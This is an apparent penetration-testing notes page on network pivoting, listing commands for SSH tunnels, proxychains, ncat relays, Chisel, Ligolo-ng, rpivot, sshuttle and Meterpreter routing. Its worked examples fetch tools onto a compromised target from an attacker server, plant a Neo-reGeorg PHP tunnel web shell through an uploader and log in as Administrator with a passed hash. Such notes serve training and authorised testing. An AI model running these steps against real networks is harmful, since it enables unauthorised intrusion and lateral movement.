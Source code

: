 ```yaml
---
layout: notes
permalink: /notes/network/pivot/
title: Network Pivoting
---
```


# Network Pivoting

## SSH Tunneling
```bash
# Local port forwarding
ssh -L 8080:internal_host:80 user@pivot_ip

# Remote port forwarding
ssh -R 8080:local_host:80 user@pivot_ip

# Dynamic port forwarding (SOCKS proxy)
ssh -D 1080 user@pivot_ip

# Bind to all interfaces
ssh -g -L 0.0.0.0:8080:internal_host:80 user@pivot_ip
```

## Proxy Chains
```bash
# Set up proxychains
proxychains nmap -sT internal_host

# Configure proxy list
echo "socks5 192.168.1.10 1080" > /etc/proxychains.conf

# Test proxy chain
proxychains curl internal_host

# Use multiple proxies
proxychains -q nmap -sT internal_host
```

## VPN Pivoting
```bash
# Start OpenVPN client
openvpn client.ovpn

# Route traffic via VPN
route add <network> <vpn_gateway>

# Verify VPN connection
ipconfig

# Use SoftEther VPN
vpnclient /cmd
```

## Using ncat
```bash
#Victim: 
ncat -lvnp 8008 -c "ncat localhost 80"
#Kali:
nc 10.10.99.203 8008 (Connected)
# Type any commands
# GET /
```

## Pivoting Tools
- Chisel: ```chisel client <attacker_ip>:8080 R:12345:internal_host:80```
- Plink: ```plink -L 8080:internal_host:80 user@pivot_ip```
- SSHuttle: ```sshuttle -r user@pivot_ip 192.168.1.0/24```
- Proxychains-ng: ```proxychains-ng nmap internal_host```
- Meterpreter: ```use multi/manage/autoroute```

## Examples

### Basic with SSH + Proxychains
We have following hosts which are not accessible from our Kali:
```bash
192.168.98.30 -> Windows host
192.168.98.2 -> DC
```
Make sure to install and prepare proxychains:
```bash
sudo apt-get install proxychains
nano /etc/proxychains.conf:
    • Comment "strict_chain"
add Socks5 and socks4:
    • socks5 127.0.0.1 9050
    • socks4 127.0.0.1 9050
```

We will make a tunnel via the accessible machine:
```bash
Kali ->  192.168.80.10 -> 192.168.98.*
```

Execute ssh command:
```bash
ssh -D 9050 privilege@192.168.80.10
proxychains nc 192.168.98.30 445
```
We have a connection!

### RPIVOT (analog Chisel)
Make sure your environment have the python tool
```
conda create -n rpivot python=2.7
```

Navigate to the folder where rpivot.zip

Start the python http server in this folder
```
python3 -m http.server
```

Connect the target machine

Upload the rpivot.zip to the target machine using the curl
```
cd /tmp
curl http://10.10.200.2:8000/rpivot.zip --output rpivot.zip
unzip rpivot.zip
cd rpivot-master
```

Prepare the server below and connect this client
```
python2 client.py --server-ip 10.10.200.2 --server-port 9980
```

On attacker machine start the rpivot server

Navigate to the rpivot-master folder:
```
python2 server.py --server-port 9980 --server-ip 0.0.0.0 --proxy-ip 127.0.0.1 --proxy-port 9050
```
If you have some problem, comment the socks5 in the /etc/proxychains.conf

### Ligolo-ng
Your machine 
```
$ sudo ip link del ligolo
$ sudo ip tuntap add user $(whoami) mode tun ligolo
$ sudo ip link set ligolo up
$ sudo ip route add 172.16.20.0/24 dev ligolo
$ ligolo-proxy -selfcert
```

Excute that agent command okay then you will get the session
```
ligol-ng >> session 
choose 1
[Agent : ebelford@drip] » start
```

Remote Machine
```
chmod +x agent
./agent -connect 10.10.xx.xx:11601 -ignore-cert
```
now without proxychain you can do ping,nmap etc

### Neo-reGeorg
[Neo-reGeorg](https://github.com/L-codes/Neo-reGeorg)
```
python3 neoreg.py generate -k thm
```
Upload generated any tunnel file that application use as a framework (e.g. tunnel.php)
Access the tunnel file using neoreg.ph:
```
python3 neoreg.py -k thm -u http://10.10.11.140/uploader/files/tunnel.php
```
Access the server that only available from tunnel (use only socks5)
```
curl --socks5 127.0.0.1:1080 http://172.20.0.121:80
```

### Sshuttle
```
git clone https://github.com/sshuttle/sshuttle.git
cd sshuttle

./run -r ebelford@ip -N 172.16.20.0/24

sshuttle -r ebelford@ip -N 172.16.20.0/24
password: ************
c : Connected to server.
```

New terminal 
```
evil-winrm -i 172.16.20.2 -u Administrator -H '<HASH>'
```